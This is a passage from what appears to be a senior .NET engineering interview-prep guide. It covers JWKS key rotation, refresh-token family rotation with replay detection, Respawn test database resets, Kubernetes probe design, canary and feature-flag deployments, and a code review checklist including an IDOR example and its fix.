* **JWKS (JSON Web Key Set / RFC 7517):** Standard JSON document hosted at `/.well-known/jwks.json` exposing public keys, modulus (`n`), exponent (`e`), and Key IDs (`kid`).
* **Key Rotation Window:** The operational transition period during which the IDP signs tokens using a new key pair while retaining old public keys in the JWKS document to validate unexpired tokens in flight.
* **Blast Radius Containment:** Limiting the potential impact of a compromised credential; in RS256, compromising a resource server leaks only public keys, not token-forging capabilities.



#### 📌 Deep Technical Mechanics & Architecture
1. **The JWKS Key Resolution Flow:**
   * Incoming JWT contains JOSE header: `{"alg":"RS256", "kid":"key-2026-v2"}`.
   * ASP.NET Core's `JwtBearerHandler` consults its internal `ConfigurationManager<OpenIdConnectConfiguration>`.
   * It looks up `key-2026-v2` in its local in-memory JWKS cache.
   * If not found (e.g., IDP just initiated rotation), it bypasses cache to refresh `/.well-known/jwks.json`, downloads the new public key, and verifies the token without application restarts.
2. **Zero-Downtime Key Rotation Protocol:**
   * **T-0:** Generate new Key Pair ($K_2$). Publish $K_2$ Public Key to JWKS alongside $K_1$.
   * **T+1 hr:** Begin signing new tokens with $K_2$ Private Key. Existing $K_1$ tokens remain valid.
   * **T+24 hrs:** All $K_1$ tokens have expired naturally (`exp` elapsed). Safely decommission $K_1$ from JWKS.

#### 💼 Concrete Real-World Production Example (Asymmetric JWKS Configuration in .NET)
```csharp
// Program.cs - Zero-secret configuration; validates purely via dynamic JWKS discovery
builder.Services.AddAuthentication(JwtBearerDefaults.AuthenticationScheme)
    .AddJwtBearer(options =>
    {
        options.MetadataAddress = "https://auth.walmart.com/.well-known/openid-configuration";
        options.RequireHttpsMetadata = true;
        options.TokenValidationParameters = new TokenValidationParameters
        {
            ValidateIssuer = true,
            ValidIssuer = "https://auth.walmart.com",
            ValidateAudience = true,
            ValidAudience = "api://supply-chain",
            ValidateIssuerSigningKey = true
        };
    });
```

---

### 3. Stateless JWT Revocation & Token Family Rotation (RFC 6819)

#### ⚡ 30-Second Senior Pitch
> "Stateless JWTs cannot be revoked natively without breaking their stateless architecture. In production, we deploy a **hybrid revocation pattern**: access tokens remain ultra-short-lived (5–10 minutes) verified entirely mathematically, while instant revocation (logout, security freeze) writes the token's unique `jti` to a distributed **Redis Blocklist with matching TTL**. Refresh tokens utilize **Token Family Rotation (RFC 6819)**, where reuse of an already-exchanged token immediately triggers invalidation of the entire token family."

#### 🎯 Must-Know Technical Terms & Buzzwords
* **JWT ID (`jti` claim):** A unique GUID assigned to each minted token enabling discrete tracking and blocklisting.
* **Redis Blocklist with TTL:** In-memory distributed cache storing revoked token identifiers where key TTL equals the token's remaining lifespan, ensuring zero cache bloat.
* **Refresh Token Rotation (RFC 6819):** Security practice where every refresh token exchange issues a *new* refresh token while invalidating the old one.
* **Token Family / Reuse Detection:** Cryptographic tracking grouping refresh tokens into a family lineage; if an expired or consumed token is submitted again, the IDP detects a replay attack and revokes all active tokens for that user.



#### 💼 Concrete Real-World Production Example (Token Family Rotation & Replay Detection Handler)
```csharp
public sealed class RefreshTokenService
{
    private readonly SecurityDbContext _db;
    private readonly ILogger<RefreshTokenService> _logger;

    public RefreshTokenService(SecurityDbContext db, ILogger<RefreshTokenService> logger)
    {
        _db = db;
        _logger = logger;
    }

    public async Task<TokenResponseDto> RotateRefreshTokenAsync(string rawRefreshToken, string ipAddress, CancellationToken ct)
    {
        var tokenHash = HashToken(rawRefreshToken);
        var token = await _db.RefreshTokens.FirstOrDefaultAsync(t => t.TokenHash == tokenHash, ct);

        if (token == null) throw new SecurityTokenException("Invalid refresh token.");

        // REPLAY ATTACK DETECTION
        if (token.IsConsumed || token.IsRevoked)
        {
            _logger.LogCritical("REPLAY ATTACK DETECTED! FamilyId: {FamilyId}, IP: {IP}. Revoking entire token lineage!",
                token.FamilyId, ipAddress);

            // Invalidate all tokens in the entire family lineage
            await _db.RefreshTokens
                .Where(t => t.FamilyId == token.FamilyId)
                .ExecuteUpdateAsync(s => s.SetProperty(x => x.IsRevoked, true), ct);

            throw new SecurityTokenException("Token compromised. All sessions revoked.");
        }

        // Mark current token consumed
        token.IsConsumed = true;

        // Issue new token in the same family
        var newRefreshToken = GenerateSecureTokenString();
        var newRecord = new RefreshToken
        {
            Id = Guid.NewGuid(),
            FamilyId = token.FamilyId,
            UserId = token.UserId,
            TokenHash = HashToken(newRefreshToken),
            ExpiresAtUtc = DateTime.UtcNow.AddDays(7)
        };

        _db.RefreshTokens.Add(newRecord);
        await _db.SaveChangesAsync(ct);

        return new TokenResponseDto(NewAccessToken(token.UserId), newRefreshToken);
    }

    private static string HashToken(string token) =>
        Convert.ToHexString(SHA256.HashData(Encoding.UTF8.GetBytes(token)));
}
```

---

### 4. High-Speed Database Resets with Respawn for Integration Tests

#### ⚡ 30-Second Senior Pitch
> "Integration test flakiness in xUnit stems from database state leaks between test runs and race conditions during parallel execution. Instead of dropping and recreating databases between tests—which takes 2–4 seconds per test—we isolate database state using **Respawn**, an intelligent library that truncates modified tables in **under 15 milliseconds** using checkpoint snapshots."

```mermaid
flowchart LR
    subgraph Test Lifecycle (xUnit + Respawn)
        T1["Test A: Inserts Order 101"] --> RES1["Respawn.ResetAsync() (15ms TRUNCATE)"]
        RES1 --> T2["Test B: Starts with Clean Database!"]
        T2 --> RES2["Respawn.ResetAsync() (15ms TRUNCATE)"]
        RES2 --> T3["Test C: Clean Database!"]
    end
```

#### 💼 Concrete Real-World Production Example (Respawn Database Reset Integration)
```csharp
public abstract class BaseIntegrationTest : IAsyncLifetime
{
    private readonly IntegrationTestFactory _factory;
    private Respawner _respawner = default!;
    private DbConnection _connection = default!;

    protected BaseIntegrationTest(IntegrationTestFactory factory) => _factory = factory;

    public async Task InitializeAsync()
    {
        _connection = new NpgsqlConnection(_factory.DbConnectionString);
        await _connection.OpenAsync();

        // Initialize Respawn graph once per fixture run
        _respawner = await Respawner.CreateAsync(_connection, new RespawnerOptions
        {
            DbAdapter = DbAdapter.Postgres,
            SchemasToInclude = new[] { "public" },
            TablesToIgnore = new Respawn.Graph.Table[] { "__EFMigrationsHistory" }
        });
    }

    public async Task DisposeAsync()
    {
        // Sub-15ms clean truncation after EVERY test!
        await _respawner.ResetAsync(_connection);
        await _connection.CloseAsync();
    }
}
```

---

### 5. Kubernetes Cascading Restart Storm Prevention & Probes Architecture

#### ⚡ 30-Second Senior Pitch
> "Kubernetes health probes govern pod lifecycle and traffic routing: **Liveness Probes** verify the process is alive; failure causes kubelet to **restart the container**. **Readiness Probes** verify the pod can serve incoming client traffic; failure **removes the pod from the Service endpoint**. A fatal junior mistake is checking external databases in a Liveness Probe—if the database experiences a latency spike, Kubernetes restarts all API pods simultaneously, precipitating a catastrophic **Cascading Restart Storm**."

```mermaid
flowchart TD
    subgraph Liveness Probe [/healthz/live]
        LP["Kubelet probes /healthz/live (Checks internal process loop)"]
        LP -- "Process Deadlocked / Frozen" --> REBOOT["Kubelet KILLS and Restarts Container!"]
        LP -- "Healthy" --> KEEP_ALIVE["Keep Running"]
    end

    subgraph Readiness Probe [/healthz/ready]
        RP["Kubelet probes /healthz/ready (Checks DB, Redis, Caches)"]
        RP -- "DB Unreachable / High Lag" --> DRAIN["Remove Pod from K8s Service Endpoint<br>(Returns 503 from Ingress, ZERO User Drops!)"]
        RP -- "Healthy" --> ROUTE["Route Inbound Client Traffic"]
    end
```

#### 📌 Deep Technical Mechanics & Architecture
1. **The Liveness Probe Restart Storm Mechanics:**
   * API has 50 pods. SQL Server CPU hits 100% due to an unindexed query.
   * If Liveness Probe executes `SELECT 1 FROM DB`:
     * All 50 pods time out on the probe.
     * Kubelet kills all 50 pods and initiates container reboots.
     * During reboot, all 50 pods reconnect to SQL Server simultaneously, overwhelming connection pools and locking SQL Server forever!
2. **Correct Separation of Concerns:**
   * **Liveness Probe (`/healthz/live`):** Checks *only* internal application state (memory allocation limits, deadlocked threads). Never touches external network dependencies.
   * **Readiness Probe (`/healthz/ready`):** Checks external dependencies (SQL Server, Redis, Kafka). If they lag, the pod stops taking traffic, protecting itself without rebooting.

---

### 6. Blue-Green, Canary Deployments & Expand-and-Contract Migrations

#### ⚡ 30-Second Senior Pitch
> "Modern zero-downtime releases balance release velocity with risk containment. **Blue-Green Deployment** provides instantaneous rollback by switching 100% of ingress router traffic between two identical environments. **Canary Deployment** utilizes progressive delivery (e.g., via ArgoCD or Istio) to shift fractional traffic (5% $\rightarrow$ 25% $\rightarrow$ 100%) while evaluating automated SLO metrics. Both strategies require **backward-compatible database schema migrations** using the Expand-and-Contract pattern."



#### 💼 Concrete Real-World Production Example (Feature Flagging with Fallback Defense)
```csharp
public sealed class CartCheckoutService
{
    private readonly IFeatureManager _featureManager;
    private readonly ILegacyPricingEngine _legacyPricing;
    private readonly INewDynamicPricingEngine _dynamicPricing;
    private readonly ILogger<CartCheckoutService> _logger;

    public CartCheckoutService(
        IFeatureManager featureManager,
        ILegacyPricingEngine legacyPricing,
        INewDynamicPricingEngine dynamicPricing,
        ILogger<CartCheckoutService> logger)
    {
        _featureManager = featureManager;
        _legacyPricing = legacyPricing;
        _dynamicPricing = dynamicPricing;
        _logger = logger;
    }

    public async Task<PricingCalculationDto> CalculateCartPricingAsync(Cart cart, CancellationToken ct)
    {
        // Dynamic feature flag evaluated per request without app redeployment
        if (await _featureManager.IsEnabledAsync("EnableDynamicSurgePricing"))
        {
            try
            {
                return await _dynamicPricing.CalculateAsync(cart, ct);
            }
            catch (Exception ex)
            {
                // Blast radius defense: Fall back to proven legacy pricing on failure
                _logger.LogError(ex, "Dynamic pricing engine failed for Cart {CartId}. Falling back to legacy.", cart.Id);
                return await _legacyPricing.CalculateAsync(cart, ct);
            }
        }

        return await _legacyPricing.CalculateAsync(cart, ct);
    }
}
```

---

### 7. Senior Code Review Checklist & Mentorship Rubric

When reviewing pull requests as a Senior Engineer or Tech Lead, focus on high-impact architectural failure modes that linters cannot catch:

#### 1. Concurrency & Threading Red Flags
* **Sync-over-Async (`.Result`, `.GetAwaiter().GetResult()`):** Flag immediately! Blocking asynchronous tasks in ASP.NET Core starves the ThreadPool, leading to thread injection delays and total API gridlock under load.
* **Unobserved Background Tasks (`_ = Task.Run(...)`):** If an unobserved task throws an unhandled exception, it escapes ASP.NET Core exception middleware and may crash the process. Always attach error handling or pass through a hosted `BackgroundService` with `Channel<T>`.

#### 2. Database & ORM Performance Traps
* **N+1 Query Detection:** Watch for navigational property traversals inside loops (`foreach (var order in orders) { total += order.Customer.Discount; }`). Enforce explicit projections (`.Select()`) or eager loading (`.Include()`).
* **Cartesian Product Explosion:** Look for multiple `.Include()` statements on sibling collection relationships. Mandate `.AsSplitQuery()` to prevent multiplying millions of relational rows.
* **Unindexed Foreign Key Queries:** Ensure foreign keys and filter columns (`Status`, `TenantId`, `CreatedAtUtc`) have corresponding indexes in EF Core migrations.

#### 3. Dependency Injection & Object Lifetime Leaks
* **Captive Dependencies:** Scoped service (e.g., `OrderDbContext`) injected into a Singleton service (e.g., background worker). The `DbContext` instance remains alive forever, accumulating memory in its `ChangeTracker` and leaking database connections.
* **Factory Resolution:** Ensure background threads create explicit scopes using `IServiceScopeFactory.CreateScope()`.

#### 4. Security & Broken Object-Level Authorization (BOLA / IDOR)
* **Route Parameter Tampering:** Ensure controllers don't just verify authentication, but verify **ownership**:
  ```csharp
  // RED FLAG: Vulnerable to IDOR!
  var invoice = await _db.Invoices.FindAsync(invoiceId);
  
  // LEAD REQUIREMENT: Scoped to user's tenant/identity!
  var invoice = await _db.Invoices.FirstOrDefaultAsync(i => i.Id == invoiceId && i.CustomerId == currentUserId);
  ```

#### 5. Observability & Cooperative Cancellation
* **`CancellationToken` Propagation:** Verify that every asynchronous method accepts and forwards `CancellationToken` to downstream I/O calls (`HttpClient`, `DbContext`, Redis).
* **Structured Logging vs. String Interpolation:** Ban `_logger.LogInformation($"Order {order.Id}")`! String interpolation wastes heap allocations and destroys structured indexing. Enforce semantic templates: `_logger.LogInformation("Order {OrderId}", order.Id)`.
